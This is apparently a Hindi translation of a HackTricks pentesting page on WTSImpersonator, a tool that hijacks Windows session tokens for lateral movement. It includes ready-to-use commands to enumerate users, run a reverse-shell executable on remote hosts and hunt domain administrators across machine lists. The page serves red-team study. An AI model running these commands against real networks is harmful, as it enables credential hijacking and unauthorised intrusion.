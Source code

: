 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator** उपकरण **"\\pipe\LSM_API_service"** RPC नामित पाइप का उपयोग करके चुपचाप लॉग इन उपयोगकर्ताओं की गणना करता है और उनके टोकन को हाईजैक करता है, पारंपरिक टोकन अनुकरण तकनीकों को बायपास करता है। यह दृष्टिकोण नेटवर्क के भीतर निर्बाध पार्श्व आंदोलनों को सुविधाजनक बनाता है। इस तकनीक के पीछे की नवाचार **Omri Baso** को श्रेय दिया जाता है, cuyo काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### मुख्य कार्यक्षमता

उपकरण API कॉल की एक श्रृंखला के माध्यम से कार्य करता है:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage

- **उपयोगकर्ताओं की गणना**: इस उपकरण के साथ स्थानीय और दूरस्थ उपयोगकर्ता गणना संभव है, किसी भी परिदृश्य के लिए आदेशों का उपयोग करते हुए:

- स्थानीय रूप से:
```powershell
.\WTSImpersonator.exe -m enum
```
- दूरस्थ रूप से, एक IP पता या होस्टनाम निर्दिष्ट करके:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **आदेश निष्पादित करना**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **Service** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन के लिए केवल WTSImpersonator निष्पादन योग्य और एक आदेश की आवश्यकता होती है:

- स्थानीय आदेश निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe का उपयोग सेवा संदर्भ प्राप्त करने के लिए किया जा सकता है:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **दूरस्थ आदेश निष्पादन**: PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाने और स्थापित करने में शामिल है, जो उचित अनुमतियों के साथ निष्पादन की अनुमति देता है।

- दूरस्थ निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **उपयोगकर्ता शिकार मॉड्यूल**: कई मशीनों में विशिष्ट उपयोगकर्ताओं को लक्षित करता है, उनके क्रेडेंशियल के तहत कोड निष्पादित करता है। यह विशेष रूप से कई सिस्टम पर स्थानीय प्रशासनिक अधिकारों के साथ डोमेन प्रशासकों को लक्षित करने के लिए उपयोगी है।
- उपयोग का उदाहरण:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
